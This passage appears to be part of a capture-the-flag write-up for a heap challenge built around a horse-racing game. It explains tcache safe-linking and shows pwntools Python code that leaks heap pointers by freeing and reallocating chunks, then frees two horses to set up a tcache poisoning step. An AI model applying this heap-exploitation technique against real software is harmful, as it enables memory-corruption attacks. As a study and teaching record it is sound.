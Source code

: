 ```(0xfd36c0 >> 12) ^ 0xdeadbeef00 == 0xdeadbee0d3```

To leak pointers we'll add some horses and remove some horses to put some chunks on tcache bin. Afterwards we add more horses to claim those chunks that were originally in tcache. If we enter "\xff" for our horse name we avoid having to write over the pointers these chunks have and they will be printed out as the horse names when the horses race! We'll look for the smallest value because that will be the one that is xored with the NULL pointer. Then we can make our malicious pointer.

Here is some spaghetti code I wrote to grab some of the pointers
```python
def getPointers():
	p.sendlineafter("Choice: ", b"3")
	data = b""
	x = p.recvline()
	data += x
	while (not (b"WINNER" in x)):
		x = p.recvline()
		data += x
		if (b"\n\n" in data):
			print("done recieving data!")
			break
	somePointers = data.split(b"|")
	leakedPointers = []
	
	print(data)
	for pointer in somePointers:
		pointer = pointer.strip(b" \n")
		pointer = pointer.ljust(8, b"\x00")
		pointer = pwn.u64(pointer)
		if (pointer != 0):
			leakedPointers.append(pointer)
			print(hex(pointer))
	print(f"The value you seek is {hex(min(leakedPointers))}")
	return min(leakedPointers)
```

This just parses the ASCII art that gets printed when racing and grabs all the data from the starting frame. The game prints "\n\n" for my terminal when its done printing the 18 horses and is going to print another frame, but on the challenge instance it prints "\r\n\r\n\r\n" so I think it depends on the terminal.

This is the code to setup the horses so they leak addresses

```python
#malloc some chunks of same size
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#free these chunks and put them in tcache
for i in range(4, -1, -1):
	print(f"removing horse {i}")
	removeHorse(i)

#these chunks are returned to us with metadata in them
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#we start racing and grab the leaked data
ASLR = getPointers()

#put two horses into tcache bin
removeHorse(0)
removeHorse(1)

```